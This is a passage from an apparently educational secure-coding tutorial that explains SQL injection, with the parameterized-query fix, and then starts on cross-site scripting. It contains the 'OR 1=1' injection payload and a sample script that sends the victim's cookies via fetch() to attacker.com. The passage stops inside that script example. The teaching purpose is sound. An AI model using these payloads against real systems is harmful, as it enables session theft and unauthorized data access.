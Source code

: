 **How it works:**

```sql
-- Your vulnerable code constructs a query like this:
query = "SELECT * FROM users WHERE id = " + userId;

-- If userId is "1", the query becomes:
-- "SELECT * FROM users WHERE id = 1"
-- This works fine and returns one user

-- But what if an attacker sends: "1 OR 1=1"?
-- The query becomes:
-- "SELECT * FROM users WHERE id = 1 OR 1=1"
```

The `OR 1=1` part is always true, so the database returns ALL users instead of just one. An attacker now has access to every user record.

**Why this happens:** The database doesn't distinguish between what you intended as data (`1`) and what you intended as SQL logic (`OR 1=1`). When you concatenate strings, both get treated as SQL instructions.

#### The Solution: Parameterized Queries (Prepared Statements)

Instead of building a query by concatenating strings, you separate **what you want to do** from **what data to use**.

```sql
-- Parameterized approach
-- You tell the database: "Run SELECT * FROM users WHERE id = ?" first
-- Then separately provide the value for ?
query = "SELECT * FROM users WHERE id = ?"
params = [userInput]

-- The database knows that userInput is DATA, not SQL code
-- Even if userInput is "1 OR 1=1", it's treated as a single value
-- Query fails safely (can't find an id matching "1 OR 1=1")
```

The critical insight: **Separate the structure (SQL code) from the content (data)**.

---

### XSS (Cross-Site Scripting): Injecting Malicious Code into Web Pages

#### The First Principle: Browsers Execute Everything in HTML

Your web browser is incredibly powerful—it can run full programs (JavaScript) embedded in web pages. This power is also a vulnerability.

**How it works:**

```html




<script>
  // Steal the user's cookies and send to attacker
  fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>


<div id="comments">
  Great article! 😊
  <script>
```